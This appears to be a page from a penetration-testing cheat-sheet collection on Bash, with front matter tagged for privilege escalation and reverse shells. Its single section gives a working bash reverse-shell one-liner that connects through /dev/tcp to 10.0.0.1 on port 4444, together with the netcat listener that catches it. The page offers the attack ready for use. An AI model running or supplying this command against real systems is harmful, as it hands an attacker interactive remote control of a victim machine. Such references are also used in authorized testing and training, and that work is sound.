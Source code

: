```yaml
---
title: Bash
desc: Executes shell commands and scripts. It also used to Reverse Shell, etc.
tags: [Linux, PrivEsc, ReverseShell, SUID]
alts: [BashScript]
website:
---
```


## Reverse Shell TCP

```sh
# TCP (ex. port: 4444)
bash -i >&  /dev/tcp/10.0.0.1/4444 0>&1

-------------------------------------------

# Listen
nc -lvnp 4444
```

<br />
